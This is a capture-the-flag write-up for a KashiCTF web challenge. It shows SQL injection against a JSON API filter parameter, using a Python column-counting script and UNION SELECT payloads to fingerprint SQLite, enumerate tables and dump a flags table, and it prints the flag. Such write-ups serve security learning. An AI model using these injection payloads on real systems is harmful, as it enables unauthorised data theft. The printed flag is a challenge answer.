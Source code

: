 # Corporate Life 2 (261 pts)

![CorporateLife2](img/corporatelife2.png)

Similar to the **Corporate Life 1** challenge, there is an endpoint called `/v2-testing`, which also contains **SQL Injection** at `/api/list-v2` in the `filter` param

However, this time, there is no flag when I tried `'OR 1=1;--` (- -)

![nothing](corporatelife2-nothing.png)

Based on the challenge description, the flag is hidden in the database, so now my goal is to dump all the data from it

Initially, I thought about using `sqlmap` to scan, but for some reason, it doesn't work :(

So first, let's detect how many columns in this

I started with `'UNION SELECT NULL;--` but I got `{"error":"Internal Server Error: Database communication failed"}`, so I increase to `'UNION SELECT NULL, NULL;--` and continue until no more errors

To speed up, I wrote a script to find the number of columns

```python
#!/usr/bin/python3

import requests

url = "http://kashictf.iitbhucybersec.in:44010/api/list-v2"
headers = {"Content-Type": "application/json"}
payload = "'UNION SELECT NULL"

while True:
    payload += ";--"
    print(payload)
    json_data = {"filter": payload}
    res = requests.post(url, headers=headers, json=json_data).text
    if "Internal Server Error" not in res:
        print(res)
        break
    payload = payload.rstrip(";--") + ",NULL"
```

![6columns](img/corporatelife2-6-columns.png)

Okay, so there are 6 columns

To determine the database type, after some ~~Google~~ research, I found some methods to check database versions such as `@@version, version(), sqlite_version()`

I just checked all of them and found that this is `SQLite`

```sql
0'UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL;--
```

![sqlite](img/corporatelife2-sqlite.png)


Now, I needed to dump all the tables in the database so:

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table';--
```

After this query, I found 2 tables is `flags` and `requests`

![tables](img/corporatelife2-tables.png)

Obviously, I focused on `flags` table, and the next step is to find its columns

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags');--
```

![tablecolumns](img/corporatelife2-table-columns.png)

Now I know the `secret_flag` column. And finally, I got the flag with the following query:

```sql
0'UNION SELECT secret_flag, NULL, NULL, NULL, NULL, NULL FROM flags;--
```

The flags were not in order, but after a few swaps I got the correct flag hehe

`Flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_koegjgE5}`

